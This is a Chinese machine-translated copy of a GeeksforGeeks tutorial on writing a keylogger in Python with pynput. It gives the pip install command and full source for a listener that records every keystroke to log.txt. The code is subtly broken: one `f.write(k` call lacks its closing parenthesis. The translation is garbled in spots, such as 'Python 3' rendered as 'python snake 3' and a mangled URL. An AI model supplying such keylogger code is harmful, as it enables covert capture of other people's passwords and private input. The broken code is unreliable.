

# 如何用 pynput 做一个键盘记录程序？

> 原文:[https://www . geeksforgeeks . org/如何使用-pyn put-to-make-a-keylogger/](https://www.geeksforgeeks.org/how-to-use-pynput-to-make-a-keylogger/)

**先决条件:** [Python 编程语言](https://www.geeksforgeeks.org/python-programming-language/)
包 **pynput.keyboard** 包含用于控制和监控键盘的类。 **pynput** 是 Python 的库，可以用来捕捉键盘输入，最酷的用途在于制作键盘记录器。键盘记录器的代码如下。

### 需要的模块

**pynput:** 要安装 pynput，请在终端中键入以下命令。

```py
 pip install pynput 
```

下面是实现:

## 蟒蛇 3

```py
# keylogger using pynput module

import pynput
from pynput.keyboard import Key, Listener

keys = []

def on_press(key):

    keys.append(key)
    write_file(keys)

    try:
        print('alphanumeric key {0} pressed'.format(key.char))

    except AttributeError:
        print('special key {0} pressed'.format(key))

def write_file(keys):

    with open('log.txt', 'w') as f:
        for key in keys:

            # removing ''
            k = str(key).replace("'", "")
            f.write(k

            # explicitly adding a space after
            # every keystroke for readability
            f.write(' ')

def on_release(key):

    print('{0} released'.format(key))
    if key == Key.esc:
        # Stop listener
        return False

with Listener(on_press = on_press,
              on_release = on_release) as listener:

    listener.join()
```

**输出:**

